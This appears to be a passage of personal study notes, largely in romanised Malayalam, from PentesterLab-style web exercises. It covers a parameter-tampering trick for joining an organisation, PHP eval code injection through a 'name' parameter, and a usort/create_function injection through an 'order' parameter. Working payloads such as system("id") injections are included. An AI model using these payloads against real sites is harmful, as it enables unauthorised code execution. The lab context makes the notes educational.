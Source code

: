 -->karanam ith oru calss il aan kidakunath.user enna oru class undenn vecho.athil orgainsation_id enna sathanam und.so namal account undakumbol namal ee organisation_id koodi parameter il cherth value 1 kodukunu.apol namal aa organosation il join aakunu ok
-->pakseh ith correct aayi arinjirikanam.ennale work aaku

# Code Execution 01
-->namal eth website il aan code execution nadathuno aa website il use chyuna lagnuage ariyanam.karanam laguage in anusarich mathrame namuk code test chyan patu.
-->php il aanengil namuk `system(uname -a)`  adich test chyam.athupole oro language inum athintethaya reethiyil aan code chyendath ok
-->so lab open aakuka.apol `http://ptl-1ef34980-d22e1b84.libcurl.so/?name=hacker`
ee url ilek pokum
-->so hacker enna sthalath oro sathanam itt nokam liek ; ' " angane oke.so double qoure idumbol code break aayi :
```
# **Parse error**: syntax error, unexpected '!', expecting ',' or ';' in **/var/www/index.php(16) : eval()'d code** on line **1**
```
athesamayam ..=hacker"."josu  enn kodukumbol site il hackerjosu enn kanikunund
-->...=hacker".system("id")."
-->ivide hacker in shesham oru double qoute idumbol error varum.athasamayam hacker"."josu     ennu kodukumbol site il hackerjosu enn kanikunund.so namuk ith vech code execution nadatham ie
-->`http://ptl-1ef34980-d22e1b84.libcurl.so/?name=hacker".system("id")."`
-->ipol namuk id kanikum.but namuk vendath key aan.athinte path lab il und.ath ivide koduthal automatic aayi lab complete aakum ok

# Code Execution 02 - sorting (usort)
-->When ordering information, developers can use two methods:
-   `order by` in a SQL request;
-   `usort` in PHP code.
-->The function `usort` is often used with the function `create_function` to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.
-->ivide filtering/sorting ine patti ulla oru exploit aan
-->lab open chyuka.apol namuk oru table kanam.aadyathe column click chythal aa column full sort chyapedum.ivide php il aan sorting chyunath with usort feature
-->so age enna column il click chyumbol ath sort aakunu.apol url ->http://ptl-b1f3e8c8-e03fdbcb.libcurl.so/?order=age  enn kanam namuk
-->so ee age il age'  enn iduka apol error kanikum :
```
  
**Parse error**: syntax error, unexpected '',$b->age'' (T_CONSTANT_ENCAPSED_STRING) in **/var/www/index.php(29) : runtime-created function** on line **1**  
  
**Warning**: usort() expects parameter 2 to be a valid callback, no array or string given in **/var/www/index.php** on line **29**
```
-->so ini namuk oro logic noki chythal ->`http://ptl-b1f3e8c8-e03fdbcb.libcurl.so/?order=age);}system("id");//`  enn koduthal code execution nadakunath kanam
-->ini lab il thana pathlek code execution chythal lab complete aakum ok
-->ivide result kanikunundenglum namuk opzhum error msg athinte koode kanan patum.so ath matan `age);}system(`  ennnath mati `age,3);}system(`  ennakuka.karanam.rand argument expect chyunund code.namal onne koduthitulu.so ivide 3 enn koduthapol ok aayi
